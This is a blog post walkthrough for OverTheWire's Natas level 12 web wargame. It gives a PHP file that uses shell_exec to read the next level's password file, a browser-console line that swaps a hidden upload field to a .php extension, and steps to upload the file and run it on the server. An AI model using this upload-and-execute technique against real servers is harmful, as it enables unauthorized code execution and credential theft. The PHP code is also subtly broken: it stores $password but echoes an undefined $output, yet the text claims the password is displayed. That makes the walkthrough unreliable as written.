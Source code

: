 ```yaml
---
layout: post
title:  "Natas Level 12"
date:   2015-09-28 20:41
categories: natas wargame web overthewire
author: Nate
---
```


## Step 1: Write the "payload script"
Create a php file to display the natas13 password
```php
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>"
?>
```

## Step 2: Modify the hidden input field
Open up your browser's javascript console.  In Chrome, CTRL+SHIFT+I will open up the Developer Tools. Change the value of the hidden input field "filename" so that it displays a php file extension instead of jpg.
```javascript
$( 'input[name="filename"]').val("test.php")
```
Make sure to hit enter so the code above is executed in your browser.

## Stage 3: Upload the payload and browse to it
Upload your php file, and click on the link to your file so the webserver executes the script you wrote.  The data displayed is the password for natas13.
